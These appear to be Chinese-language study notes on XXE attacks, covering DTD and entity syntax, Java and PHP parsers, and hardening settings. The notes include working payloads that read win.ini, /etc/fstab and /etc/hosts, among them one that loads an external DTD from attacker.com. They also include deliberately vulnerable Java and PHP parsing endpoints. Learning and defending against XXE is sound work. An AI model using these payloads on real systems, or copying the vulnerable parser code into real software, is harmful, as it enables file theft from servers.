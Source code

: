 # XXE

## xml的语法格式

```xml
<?xml version="1.0" encoding="utf-8"?> //头信息 版本信息,编码信息
<!DOCTYPE root [                       //DTD doc type define
    <!ENTITY test "hello world">   //定义内部实体
    <!ENTITY 实体名称 SYSTEM "URI"> //引用定义在外部的实体

]> 

<root> //根节点 每个xml文档必须要有一个根节点
    <c></c> //root的子节点
</root>
```

> 所有的节点标签都必须关闭,否则会导致解析失败

## DTD 

DTD用于约束xml的文档格式 保证xml是一个有效的xml DTD可以分为内部DTD和外部DTD

定义内部DTD`<!DOCTYPE 根元素 [元素声明]>` 用于规定xml元素的格式 如果xml中节点没有按照DTD的约束定义 就会报错:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<! DOCTYPE A [
    <! ELEMENT a (number*)>
    <! ELEMENT number (1,2,3)>
    <! ELEMENT 1 (#PCDATA)>
    <! ELEMENT 2 (#PCDATA)>
    <! ELEMENT 2 (#PCDATA)>
]>
<A>
    <a>
        <1>1-1</1>
        <2>2-1</2>   
    </a>
    <a>
        <1>1-2</1>
        <2>2-2</2> 
    </a>
</A>
```

定义外部DTD`<!DOCTYPE 根元素 SYSTEM "URI/URL">`

通过在DTD中定义的参数实体,可以在DTD文件中调用,通过引用外部实体可以实现bind XXE将数据外送

如果目标环境无回显也不允许向外发送请求,还可以采用DTD文档继承触发报错来显示数据

## 实体

实体是用于定义引用文本或特殊字符的变量,实体可以在文档内部和外部通过uri声明,在文档的其他位置上引用该实体

定义内部实体`<!ENTITY 实体名称 "实体的值">` 

定义外部实体`<!ENTITY 实体名称 SYSTEM "URI/URL">`

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE aaa [
<!ENTITY name SYSTEM "file:///c:/windows/win.ini" > 
]>
<name>&name;</name>
```

定义参数实体`<!ENTITY % 实体名称 "实体的值";>`

```xml
<!DOCTYPE data [
  <!ENTITY % dtd SYSTEM
  "http://attacker.com/evil.dtd">
  %dtd;
  %all;
]>
<data>&fileContents;</data>
```

evil.dtd:

```xml
<!ENTITY % file SYSTEM "file:///etc/fstab">
<!ENTITY % start "<![CDATA[">
<!ENTITY % end "]]>">
<!ENTITY % all "<!ENTITY fileContents '%start;%file;%end;'>">
```

> 使用`[CDATA[这里]]`可以输出带有特殊字符的文本而不会被作为xml标签解析

在使用参数实体进行拼接`CDATA`标签时不允许在xml内部进行,要在外部DTD中拼接之后再xml头中引用 否则会报错:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY % file SYSTEM "file:///etc/hosts" >
<!ENTITY % start "<![CDATA[">
<!ENTITY % end "]]>">
<!ENTITY % xxe "<!ENTITY fileContents '%start;%file;%end;'>">
% xxe]>
<book id="1">		
	<name>Good Job</name>		
	<author>JoyChou</author>		
	<year>2017</year>		
	<price>100.00&fileContents;</price>	
</book>

org.xml.sax.SAXParseException: 参数实体引用 "%start;" 不能出现在 DTD 的内部子集中的标记内。
	at com.sun.org.apache.xerces.internal.parsers.DOMParser.parse(DOMParser.java:258) ~[na:1.8.0_251]
	at com.sun.org.apache.xerces.internal.jaxp.DocumentBuilderImpl.parse(DocumentBuilderImpl.java:339) ~[na:1.8.0_251]
	at org.q.controller.XXE.DocumentBuilder(XXE.java:37) ~[classes/:na]
```

# XXE IN JAVA

在实际应用中通常不会使用xml作为通信的载体,而是选择json.使用xml格式的情况下大多用于配置导入并且不会有回显

涉及xml文件解析的场景,首先测试xml解析器是否禁用外部实体.如下接口是java在解析xml文件用到的接口:

```java
javax.xml.parsers.DocumentBuilder
javax.xml.parsers.DocumentBuilderFactory
javax.xml.parsers.SAXParser
javax.xml.parsers.SAXParserFactory
javax.xml.transform.TransformerFactory
javax.xml.validation.Validator
javax.xml.validation.SchemaFactory
javax.xml.transform.sax.SAXTransformerFactory
javax.xml.transform.sax.SAXSource
org.xml.sax.XMLReader
org.xml.sax.helpers.XMLReaderFactory
org.dom4j.io.SAXReader
org.jdom.input.SAXBuilder
org.jdom2.input.SAXBuilder
javax.xml.bind.Unmarshaller
javax.xml.xpath.XpathExpression
javax.xml.stream.XMLStreamReader
org.apache.commons.digester3.Digester
```

```java
DocumentBuilderFactory dbf = DocumentBuilderFactory.newInstance();
dbf.setExpandEntityReferences(false);
dbf.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
dbf.setFeature("http://xml.org/sax/features/external-general-entities", false);
dbf.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
```

## DocumentBuilder和SAXParser

这两种都是java原生的api 支持对xml文档的解析

DocumentBuilder支持回显:

```java
    @PostMapping("/documentBuilder")
    public String DocumentBuilder(HttpServletRequest request) throws Exception {
        String body = getRequestBody(request);
        System.out.println(body);
        DocumentBuilderFactory dbf = DocumentBuilderFactory.newInstance();
        DocumentBuilder documentBuilder = dbf.newDocumentBuilder();
//        Document doc = documentBuilder.parse(body);
        StringReader sr = new StringReader(body);
        InputSource is = new InputSource(sr);
        Document doc = documentBuilder.parse(is);  // parse xml

        // 遍历xml节点name和value
        StringBuilder buf = new StringBuilder();
        NodeList rootNodeList = doc.getChildNodes();
        for (int i = 0; i < rootNodeList.getLength(); i++) {
            Node rootNode = rootNodeList.item(i);
            NodeList child = rootNode.getChildNodes();
            for (int j = 0; j < child.getLength(); j++) {
                Node node = child.item(j);
                buf.append(String.format("%s: %s\n", node.getNodeName(), node.getTextContent()));
            }
        }
        return buf.toString();
    }
```

SAXParser不支持回显

```java
    @PostMapping("/SAXParser")
    public String SAXParser(HttpServletRequest request) {
        try {
            String body = getRequestBody(request);
            
            SAXParserFactory spf = SAXParserFactory.newInstance();
            SAXParser parser = spf.newSAXParser();
            parser.parse(new InputSource(new StringReader(body)), new DefaultHandler());  // parse xml

            return "SAXParser xxe vuln code";
        } catch (Exception e) {

            return e.toString();
        }
    }

```

# XXE IN PHP

```php
<?php

    libxml_disable_entity_loader (false);
    $xmlfile = file_get_contents('php://input');
    $dom = new DOMDocument();
    $dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD); 
    $creds = simplexml_import_dom($dom);
    echo $creds;

?>
```

```php
libxml_disable_entity_loader(true);
```